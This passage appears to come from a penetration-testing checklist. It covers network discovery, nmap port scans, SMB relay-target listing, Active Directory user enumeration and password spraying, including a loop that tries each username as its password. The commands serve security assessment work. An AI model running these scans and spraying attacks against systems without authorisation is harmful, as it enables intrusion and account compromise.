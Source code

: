 ## 📌 2. Network Discovery & Mapping

### Finding Live Hosts
- [ ] Perform ping sweep to identify active hosts
  ```
  1..254 | ForEach-Object {ping -n 1 192.168.1.$_ | Select-String "Reply"}  # PowerShell
  nmap -sn 192.168.1.0/24      # Nmap ping scan
  ```

- [ ] Check ARP cache for active hosts (useful if ICMP is blocked)
  ```
  arp -a                       # Shows IP-to-MAC mappings
  ```

- [ ] Identify key infrastructure
  ```
  nltest /dclist:<domain>      # Find domain controllers
  nslookup -type=SRV _ldap._tcp.dc._msdcs.<domain>  # Alternate DC finder
  ```

### Port Scanning
- [ ] Scan for common services across the network
  ```
  nmap -p 445,3389,139,135,88,389,636,53,80,443 --open 192.168.1.0/24
  ```
  - SMB (445), RDP (3389), Kerberos (88), LDAP (389/636), DNS (53), Web (80/443)

- [ ] Scan for vulnerable services
  ```
  nmap -p 21,23,25,110,143,8080,1433,3306 --open 192.168.1.0/24
  ```
  - Unencrypted protocols: FTP (21), Telnet (23), SMTP (25), POP3 (110), IMAP (143)
  - Application servers: Tomcat/JBoss (8080), MSSQL (1433), MySQL (3306)

- [ ] Check for SMB vulnerabilities and signing
  ```
  crackmapexec smb 192.168.1.0/24 --gen-relay-list relayable.txt
  ```
  - Identifies hosts with SMB signing disabled (potential relay targets)

## 📌 3. Credential Gathering & Initial Access

### Password Attacks
- [ ] Enumerate users (if you've identified a domain controller)
  ```
  GetADUsers.py -all -dc-ip 192.168.1.100 domain.local/user:password
  ```

- [ ] Password spraying with common passwords
  ```
  crackmapexec smb 192.168.1.0/24 -u userlist.txt -p "Spring2023!" --continue-on-success
  ```
  - Try username as password: 
  ```
  for user in $(cat users.txt); do crackmapexec smb <target> -u $user -p $user -d domain.local; done
  ```
